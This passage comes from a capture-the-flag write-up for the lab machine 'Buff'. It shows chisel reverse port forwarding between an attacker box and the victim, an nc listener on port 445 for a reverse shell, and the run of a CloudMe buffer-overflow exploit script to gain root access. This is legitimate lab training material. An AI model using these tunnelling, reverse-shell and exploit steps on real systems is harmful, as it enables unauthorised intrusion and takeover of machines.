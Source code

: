 I tried to use two different tools to set up port forwarding, plink and chisel. I was not able to get plink to work, despite it being easier to set up so I use the alternative of chisel. 

 In order to get both a chisel binary for your attacker box and the victim box (Buff), we need to download them from the projects [GitHub page](https://github.com/jpillora/chisel/releases/tag/v1.6.0) and transfer the windows executable to the victim much in the same way as transferring nc.exe over. I found that curl did not work in the reverse shell we set up earlier, but running another instance of the python script we used to get a basic webshell earlier in another terminal window or tab and using curl there. 

 With the chisel binaries on both our attacker and victim machines, we can start to setup the port forwarding connection. 

 On our attacker box, we start the chisel server we'll send our data through. We use the following command:
 ```bash
 ./chisel server -p 8000 -reverse -v
 ```
Lets take a breather and work though the command. ```server``` is the mode we set chisel to run on, ```-p 8000``` sets the port we send data through on the attacker box, and ```-reverse -v``` sets the other options we need, ```-v``` setting the verbosity of output and ```reverse``` allowing us to set reverse port forwarding remotes on the client we'll set up on the Buff machine. 

On our victim box, the following command will be used:
```
chisel.exe client 10.10.14.57:8000 
```
Lets disect this command too. We have the following basic structure: ```chisel.exe client [server_ip:server_port] [remote string]```. For each remote string we define, chisel creates a tunnel between the server and port. A remote string itself takes the structure: ```<local_ip>:<local_port>:<remote_ip>:<remote_port>```, and our remote string is ```R:8888:127.0.0.1:8888```. ```R``` states we start the tunnel locally, and open the listener on the server (in our case, the attack box). The rest of the string is easier to understand, simply telling the chisel client to send anything from the server on port 8888 to localhost on port 8888.

As such, we now need to edit the exploit script so that the overflow data is sent to localhost and port 8888 when we run it on our attacking machine. I also found I had to add ```import sys``` to the top of the file as well. 

As our payload is a nc reverse shell on port 445, we need to start a nc listener on our attack machine to capture the reverse shell. All we need to do is run:
```bash
sudo nc -nvlp 445
```

## Carrying out our attack and getting root access
With our shellcode inserted into the script, port forwarding set up and our nc listener running on our machine we can run the attack script and gain root access.

You run the exploit script by executing the following command in a terminal:
```bash
python2 cloudme\ BOF.py
```
You can call your exploit file whatver you want, of course, as long as you use the correct file name when you carry out this attack, 
